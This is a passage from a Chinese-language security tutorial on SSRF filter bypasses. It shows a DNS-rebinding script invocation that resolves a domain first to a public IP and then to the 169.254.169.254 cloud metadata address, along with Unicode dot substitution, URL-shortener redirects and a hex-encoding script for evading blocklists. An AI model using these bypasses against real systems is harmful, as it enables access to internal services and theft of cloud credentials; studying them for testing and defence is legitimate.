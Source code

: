 ![image.png](.//SSRF 绕过方式.assets/2023_05_19_10_39_52_taS2c3j9.png)

那么还可以自定义DNS服务器，这样就能方便控制每次解析的IP地址了，使用[SSRF-Testing](https://github.com/cujanovi./-Testing/)项目中的dns.py脚本执行

```shell
python3 dns.py 216.58.214.206 169.254.169.254 127.0.0.1 53 localdomains.pw
```
在本地53端口开启DNS服务，为localdomains.pw指定两次解析IP，第一次是216.x，第二次是169.x。开启后使用
```shell
nslookup 1111.localdomains.pw 127.0.0.1
```
指定DNS服务器为127.0.0.1，查询解析记录：

![image.png](.//SSRF 绕过方式.assets/2023_05_19_10_39_53_9Btjh1me.png)

这样一来，两次解析的IP就能方便的控制了。

## 点分割符号替换

在浏览器中可以使用不同的分割符号来代替域名中的.分割，可以使用。｡．来代替：
```shell
http://www。qq。com 
http://www｡qq｡com 
http://www．qq．com
```
## 短地址绕过
这个是利用互联网上一些网站提供的[网址缩短](https://www.shorturl.at/)服务进行一些黑名单绕过，其原理也是利用重定向：

![image.png](.//SSRF 绕过方式.assets/2023_05_19_10_39_54_U2gwkHXE.png)



## URL十六进制编码
URL十六进制编码可被浏览器正常识别，编码脚本：
```python
data = "www.qq.com";
alist = []
for x in data:
    alist.append(hex(ord(x)).replace('0x', '%'))
print(f'http://{"".join(alist)}')
```
![image.png](.//SSRF 绕过方式.assets/2023_05_19_10_39_54_fqPJTXVr.png)

![image.png](.//SSRF 绕过方式.assets/2023_05_19_10_39_54_YN5j2H6g.png)



